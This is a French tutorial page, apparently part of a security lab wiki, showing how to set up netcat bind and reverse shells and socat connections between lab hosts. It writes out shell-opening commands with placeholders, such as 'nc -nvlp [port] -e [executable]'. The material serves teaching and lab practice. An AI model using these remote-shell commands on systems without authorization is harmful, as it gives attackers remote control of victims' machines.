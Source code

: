 > Remarque : La connexion est réalisée en clair, elle peut être détectée et interceptée.
{.is-warning}


## BIND SHELL

Dans notre premier cas, **Bob** mettra en place en serveur d'écoute bind à une instance *CMD.exe* et **Capuche** s'y connectera.

Mise en place du serveur bind : `nc -nvlp [port] -e [executable]`

![ygkm7dxofh.gif](/uploads/reconnaissance/ygkm7dxofh.gif){.align-center}

Connexion de Capuche sur Bob : `nc -nv [@IP] [Port]`

![wm6psjsldp.gif](/uploads/reconnaissance/wm6psjsldp.gif){.align-center}

## REVERSE SHELL

Dans notre second cas **Bob** mettra en place un serveur d'écoute et **Capuche** s'y connectera en bindant son Shell.

Mise en place du serveur d'écoute : `nc -nvlp [Port]`

![yenm4invbt.gif](/uploads/reconnaissance/yenm4invbt.gif){.align-center}

Connexion de **Capuche** sur **Bob** avec un bind Shell : `nc -nv [@IP] [Port] [Executable]`

![3o2r8zswkt.gif](/uploads/reconnaissance/3o2r8zswkt.gif){.align-center}

**Bob** a maintenant un terminal à distance sur le poste de **Capuche**.

![lveigrylii.gif](/uploads/reconnaissance/lveigrylii.gif){.align-center}

# SoCat

> **Socat** est un utilitaire en ligne de commande qui établit deux flux bidirectionnels et transfère les données entre eux. C'est donc comme NetCat mais avec le transfert de données. Les flux peuvent être construits à partir d'un grand ensemble de puits de données et de sources. Socat peut être utilisé à de nombreuses fins différentes.
{.is-info}

## CONNEXION

Dans notre cas, **Capuche** se connectera à **Alice**.

Mise en place du serveur d'écoute : `socat TCP4-LISTEN:[Port] STDOUT`

![6cgkaqzs1l.gif](/uploads/reconnaissance/6cgkaqzs1l.gif){.align-center}

Connexion de **Capuche** : `socat - TCP4:[@IP]:[Port]`

![mdgggtwlvk.gif](/uploads/reconnaissance/mdgggtwlvk.gif){.align-center}
